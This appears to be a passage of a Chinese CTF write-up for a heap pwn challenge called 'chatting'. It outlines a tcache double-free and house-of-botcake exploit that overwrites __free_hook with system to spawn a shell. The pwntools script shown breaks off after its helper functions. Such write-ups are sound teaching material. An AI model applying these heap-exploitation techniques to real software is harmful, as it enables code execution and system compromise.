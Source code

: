 

### chatting

#### 解法一

首先填满0x100的tcache，然后释放当前usrname，使当前用户的message chunk（大小也为0x100） 进入unsorted bin，然后执行read 函数进行泄露libc。

泄露完之后，发现add message 时，如果add message 0x64次后（或者用户名长度大于 0x64），如果再次add会释放当前的message chunk，而如果delete 当前用户就会触发tcahche double free 检测，那么可得知程序中存在double free。

接下来通过构造chunk 结构，利用house of botcake 制造出重叠chunk，然后利用tcache 申请到free_hook 修改其为system，最后释放一个content为"/bin/sh\x00"的chunk 即可getshell

![image-20231217171306456](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111728.png)

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'
#p=remote("101.200.122.251",14509)
p=process('./chatting')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
#libc=ELF('./libc-2.27.so')
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"b *$rebase(0x000321F)\n decompiler connect ida --host 10.193.253.113 --port 3662")
	pause()


def menu(choice):
	ru("Choose action (add, delete, switch, message, read, listuser, exit): ")
	sl(choice)


def add(usrname):
	menu("add")
	ru("Enter new username:")
	sl(usrname)

def delete(usrname):
	menu("delete")
	ru("Enter username to delete:")
	sl(usrname)

def switch_func(usrname):
	menu("switch")
	ru("Enter username to switch to: ")
	sl(usrname)

def message_func(usrname,size,content):
	menu("message")
	ru("To: ")
	sl(usrname)
```